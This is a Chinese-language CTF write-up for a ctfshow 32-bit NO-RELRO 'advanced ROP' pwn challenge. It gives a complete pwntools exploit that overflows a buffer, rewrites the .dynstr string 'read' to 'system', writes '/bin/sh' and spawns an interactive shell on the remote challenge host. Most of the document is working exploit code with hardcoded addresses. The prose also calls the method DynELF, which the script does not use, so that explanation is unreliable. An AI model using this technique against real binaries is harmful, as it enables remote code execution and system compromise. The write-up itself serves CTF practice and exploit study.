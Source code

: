 # 挑战简介
高级ROP 32 位 NO-RELRO

# 思路
估摸着也太高级了，由于没有libc文件且可能开启ASLR，无法直接获取system函数地址，因此使用DynELF技术：

- 修改程序的动态链接表，将read函数替换为system函数
- 通过ROP链实现函数替换和参数传递

**第一步：准备替换数据**
```
dynstr = elf.get_section_by_name('.dynstr').data()
dynstr = dynstr.replace(b'read', b'system')
```

- 获取.dynstr段（存储函数名字符串）
- 将其中的"read"替换为"system"

**第二步：构造ROP链**
```
rop.raw(b'a' * offsets)  # 填充到返回地址
rop.read(0, 0x8049804 + 4, 4)  # 修改GOT表指针
rop.read(0, 0x80498e0, len(dynstr))  # 写入修改后的dynstr
rop.read(0, 0x80498e0 + 0x100, len("/bin/sh\x00"))  # 写入"/bin/sh"
rop.raw(0x8048376)  # 调用被替换的"read"(实际是system)
rop.raw(0xdeadbeef)  # 返回地址占位
rop.raw(0x80498e0 + 0x100)  # system的参数："/bin/sh"地址
```

第三步：关键地址分析

- 0x8049804 + 4：GOT表中read函数的地址指针
- 0x80498e0：用于存放修改后dynstr的内存地址
- 0x8048376：read函数在PLT中的地址

```
from pwn import *
#from struct import pack
from LibcSearcher import *

#context.log_level = 'debug'
#context(arch = 'amd64',os = 'linux',log_level = 'debug')
context(arch = 'i386',os = 'linux',log_level = 'debug')


#io = process('./pwn')
elf = ELF('D:\edge 下载\pwn')
rop = ROP('D:\edge 下载\pwn')
#libc = ELF('./libc.so.6')

io = remote('pwn.challenge.ctf.show',28262)

offsets = 112
dynstr =elf.get_section_by_name('.dynstr').data()
dynstr = dynstr.replace(b'read',b'system')
rop.raw(b'a' * offsets)
rop.read(0,0x8049804 + 4,4)
rop.read(0,0x80498e0,len(dynstr))
rop.read(0,0x80498e0 + 0x100,len("/bin/sh\x00"))
rop.raw(0x8048376)
rop.raw(0xdeadbeef)
rop.raw(0x80498e0 + 0x100)
rop.raw(b'a' * (256-len(rop.chain())))

io.recvuntil('Welcome to CTFshowPWN!\n')
io.send(rop.chain())
io.send(p32(0x80498e0))
io.send(dynstr)
io.send(b'/bin/sh\x00')
io.interactive()
```

